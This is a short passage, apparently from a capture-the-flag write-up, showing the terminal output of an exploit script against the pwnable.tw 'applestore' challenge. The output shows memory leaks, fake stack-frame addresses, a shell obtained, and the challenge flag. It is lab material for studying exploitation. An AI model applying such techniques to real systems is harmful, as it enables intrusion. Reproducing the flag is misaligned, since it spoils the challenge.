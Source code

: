 {% highlight bash %}
➜  applestore python solve.py chall.pwnable.tw 10104
[*] For remote: solve.py HOST PORT
[+] Opening connection to chall.pwnable.tw on port 10104: Done
[*] '/home/vagrant/CTFs/pwnable.tw/applestore/applestore'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE
[+] libc leak found at: 0xf7591060
[+] libc base found at: 0xf7564000
[+] heap chunk found at: 0x923d010
[+] stack leak found at: 0xff8674e8
[+] saved_ebp_target at: 0xff867548
[+] fake_frame at: 0xff867528
[*] Switching to interactive mode
 $ id
uid=1000(applestore) gid=1000(applestore) groups=1000(applestore)
$ cat /home/applestore/flag
FLAG{I_th1nk_th4t_you_c4n_jB_1n_1ph0n3_8}
{% endhighlight %}

